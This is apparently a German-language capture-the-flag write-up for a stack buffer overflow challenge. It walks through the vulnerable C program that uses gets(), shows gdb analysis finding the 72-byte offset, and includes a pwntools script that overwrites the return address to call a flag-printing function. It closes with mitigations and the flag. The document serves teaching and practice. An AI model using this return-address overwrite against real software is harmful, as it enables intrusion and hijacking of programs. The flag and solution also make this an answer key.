


# pwn-bufferoverflow

## Lösungsvorschlag

### Grundproblem

Der Name der Challenge deutet an, worum es geht: Ein einfacher stackbasierter Buffer Overflow.

Eine erste Analyse von `greetings.c` bestätigt dies:

```c
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```

Der Buffer Overflow ist in Zeile 10 zu finden.
Dort wird mittels der Funktion `gets()` der User-Input in das char-Array `name_user` eingelesen.

In der Man-Page zur Funktion gets() ist folgendes zu finden:

```text
<...>
SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds checking, and the inability for the calling program to reliably
     determine the length of the next incoming line, the use of this function enables malicious users to arbitrarily change a running program's
     functionality through a buffer overflow attack.  It is strongly suggested that the fgets() function be used in all cases.
<...>
```

Der Knackpunkt ist, dass mit der Funktion `gets()` mehr Daten eingelesen werden können, als in der Variable `name_user` vorgesehen sind. Zum Problem wird dies, wenn der Stackframe korumpiert wird und der `Return Instruction Pointer` überschrieben:



Quelle: https://en.wikipedia.org/wiki/Call_stack

Der Return Instruction Pointer ist ein Wert, welcher angibt, an welcher Stelle ein Programm weitergeführt wird, wenn eine Funktion fertig ist (vgl. return-Anweisung).
Auf dem Stack werden die lokalen Variablen wie `name_user` gespeichert. Das Array (bzw. der Buffer) wird von niedrigen Adressen zu hohen Adressen beschrieben. Wird nun zu viel in die Daten geschrieben, kann die `Return Adresse` des Stackframes überschrieben werden. Wird die Adresse der Funktion `spass()` hinzugefügt, wird die Flag ausgegeben.

### Exploitation

Eine Prüfung mittels [checksec](https://github.com/slimm609/checksec.sh) ergibt, dass Schutzmechanismen wie Stack Canaries nicht aktiv sind.

```
$ checksec --file=greetings                                                                      1 ⨯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols       FORTIFY  Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   69 Symbols      No     0               2               greetings

```

Wichtig für den Exploit ist die Ausgabe `No canary found`. Diese bedeutet, dass die `Return Adresse` relativ einfach überschrieben werden kann.

Adressen der Funktionen in `gdb`:
```text
gef➤   info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  printf@plt
0x0000000000401050  execve@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  gruss
0x00000000004011d2  spass
0x000000000040121f  main
0x0000000000401240  __libc_csu_init
0x00000000004012a0  __libc_csu_fini
0x00000000004012a4  _fini
```

Nun muss ermittelt werden, wie viel Input eingegeben werden muss, sodass die `Return Adresse` erreicht wird. Dort wird dann die Adresse der Funktion `spass()` `0x00000000004011d2` geschrieben.

Die Adresse, welche nach `gruss()` ausgeführt wird, ist: `0x0000000000401238`:
```text
gef➤  disass main
Dump of assembler code for function main:
   0x000000000040121f <+0>:     push   rbp
   0x0000000000401220 <+1>:     mov    rbp,rsp
   0x0000000000401223 <+4>:     sub    rsp,0x10
   0x0000000000401227 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x000000000040122a <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x000000000040122e <+15>:    mov    eax,0x0
   0x0000000000401233 <+20>:    call   0x401152 <gruss>
   0x0000000000401238 <+25>:    mov    eax,0x0
   0x000000000040123d <+30>:    leave
   0x000000000040123e <+31>:    ret
```

Breakpoint am Ende von `gruss()` erstellen:

```text
gef➤  b *0x00000000004011cf
```

Programm starten und Testeingabe vornehmen:
```text
gef➤  r
Starting program: /home/kali/tmp/greetings
Wie heisst du?:
AAAAAAAAA
```

Durch die gdb-Erweiterung `gef` wird direkt ein Teil des Stacks angezeigt, an dem der Buffer bzw. die Eingabe gespeichert wird.



Untersuchen des Stacks:\
Der Buffer startet bei `0x7fffffffdf10`,\
die Rücksprung-Adresse steht bei `0x7fffffffdf58`:

```text
gef➤  x/50x 0x007fffffffdf10
0x7fffffffdf10: 0x41414141      0x41414141      0x00000041      0x00000000
0x7fffffffdf20: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf30: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf40: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf50: 0xffffdf70      0x00007fff      0x00401238      0x00000000
0x7fffffffdf60: 0xffffe068      0x00007fff      0x00000000      0x00000001
0x7fffffffdf70: 0x00000000      0x00000000      0xf7dfe7fd      0x00007fff
0x7fffffffdf80: 0xffffe068      0x00007fff      0xf7fca000      0x00000001
0x7fffffffdf90: 0x0040121f      0x00000000      0xffffe389      0x00007fff
0x7fffffffdfa0: 0x00401240      0x00000000      0x49789a80      0x31efa2d3
0x7fffffffdfb0: 0x00401070      0x00000000      0x00000000      0x00000000
0x7fffffffdfc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdfd0: 0xf6789a80      0xce105d2c
```

Der Offest ist demnach `0x7fffffffdf58 - 0x7fffffffdf10 = 0x48` `(72)`.

Das bedeutet, 72 Bytes können als Input frei gewählt werden. Anschließend muss die Adresse der Funktion `spass()` `0x00000000004011d2` hinzugefügt werden.

Die automatisierte Lösung ist in `solve.py` zu finden:
```python
from pwn import *

TARGET_HOST = "localhost"
TARGET_PORT = 57005

print("Baue Verbindung zu %s:%d auf..." % (TARGET_HOST, TARGET_PORT))
process = remote(TARGET_HOST, TARGET_PORT)

address_flag_function = p64(0x00000000004011d2)

print("Sende Payload...")
payload = b"DBH"*24 + address_flag_function

print(process.recv())
process.sendline(payload)

print(process.recv())
print(process.recv())
```

Ausgabe des Programms mit Flag:

```
$ python solve.py
Baue Verbindung zu 20.126.227.19:57005...
[+] Opening connection to 20.126.227.19 on port 57005: Done
Sende Payload...
b'Wie heisst du?:\n'
b'Hallo DBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBH\xd2\x11@. Viel Spass bei DBH!\nSo macht DBH doch viel mehr Spass.\n'
b'DBH{574ckb4513r73r_puff3ru3b3rl4uf}'
[*] Closed connection to 20.126.227.19 port 57005
```

## Beseitigung der Schwachstelle

Die Schwachstelle kann mit verschiedene Möglichkeiten beseitigt werden.

`Stack Canaries` sind zufällige Werte, die kurz vor die `Return Adresse` zur Laufzeit geschrieben werden. Sollten die Werte während der Laufzeit des Programms geändert werden, so ist dies ein Indiz für den Versuch eines stackbasierten Bufferoverflows und die Anwendung kann entsprechend reagieren (z. B. durch Beendigung).
Stack Canaries können während der Kompilierung bei `gcc` durch die Flag `-fstack-protector-all` aktiviert werden.
Eine Voraussetzung, dass dies funktioniert, ist, dass der Stack zur Laufzeit nicht geleakt wird.

Die Man-Page weist auf die sicherere Implementierung `fgets()` hin:

```c
fgets(char * restrict str, int size, FILE * restrict stream);
```

Hier kann mit `size` die Anzahl an Zeichen angegeben werden, die eingelesen werden sollen.
Wichtig ist, dass hier nicht zur Laufzeit die Länge des User-Inputs genutzt wird.

Mit `Address Space Layout Randomization (ASLR)` werden die einzelnen Teile des Arbeitsspeicher einer Anwendung zufällig platziert (vereinfacht erklärt). Ein Angreifer kann so nicht einfach die Rücksprung-Adresse einer Funktion ermitteln.

Im Besten Falle werden alle genannten Möglichkeiten gemeinsam umgesetzt.

## Flag
```
DBH{574ckb4513r73r_puff3ru3b3rl4uf}
```